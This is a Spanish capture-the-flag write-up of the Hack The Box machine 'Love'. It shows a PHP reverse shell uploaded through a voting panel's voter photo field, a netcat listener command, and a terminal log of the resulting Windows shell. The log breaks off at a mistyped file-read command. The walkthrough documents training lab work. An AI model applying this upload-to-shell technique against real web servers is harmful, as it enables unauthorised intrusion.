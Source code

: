 
De ahi en más, solamente aprete **Forward** unas 3 veces para lograr ingresar.

![](https://i.imgur.com/wNaZ41k.png)

Ahora me quedaba encontrar algun fallo en el sistema para ver si podia lograr algo desde el panel.

Cuando me puse a buscar en Google vulnerabilidades, me di cuenta de que estaba [este RCE](https://www.exploit-db.com/exploits/49846) que pedia autenticación, asi que fui a revisarlo.

El script pedia los datos del usuario administrador para ejecutar codigo.

> De aqui en adelante he visto que otros usuarios de HTB toman otra via para encontrar las credenciales de Admin y ejecutar la vulnerabilidad, viendo el puerto 5000 a tres de otra pagina con subdomino. Esto no lo hice, ya que no me percate de que podia existir un subdominio en este momento. Entiendo que esta vulnerabilidad estaba prevista para ejecutarse con este payload, pero quizá no de la manera que yo lo hice.

Pero leyendo el codigo me di cuenta de que simplemente se podia hacer estando logeado desde la misma interfaz.

Fui al apartado de **Voters** y agregue uno nuevo. Rellene los datos y en el apartado de **Photo** cargue un script **PHP**:

> FAIL: Acá igual me lleve un rato probando scripts, ya que el que estaba documentado en exploit-db no funciono, y tambien estuve probando otros (como se ve en la imagen).

![](https://i.imgur.com/pBjnYW7.png)

El exploit que use es el de Ivan Sincek, puedes [verlo acá](https://github.com/ivan-sincek/php-reverse-shell), o puedes hacerlo como yo que simplemente lo saque [revshells.com](https://www.revshells.com/), en el apartado de Windows.

Luego lo que quedaba era ejecutar el script PHP, en el codigo se puede ver que lo carga desde el directorio **images** simplemente abriendolo desde la URL. 

Asi que pongo en escucha el netcat e ingreso a la URL:

![](https://i.imgur.com/syIWCX3.png)

**SHELL OBTENIDA.**

Ahora busco la User Flag y continuo con la escala de privilegio.

```bash
❯ nc -nvlp 4545
listening on [any] 4545 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.239] 63812
SOCKET: Shell has connected! PID: 2448
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\omrs\images>whoami
love\phoebe

C:\xampp\htdocs\omrs\images>cd C:\Users\Phoebe\Desktop

C:\Users\Phoebe\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 56DE-BA30

 Directory of C:\Users\Phoebe\Desktop

04/13/2021  03:20 AM    <DIR>          .
04/13/2021  03:20 AM    <DIR>          ..
10/25/2023  05:33 PM                34 user.txt
               1 File(s)             34 bytes
               2 Dir(s)   3,856,453,632 bytes free

C:\Users\Phoebe\Desktop>type usr.txt
```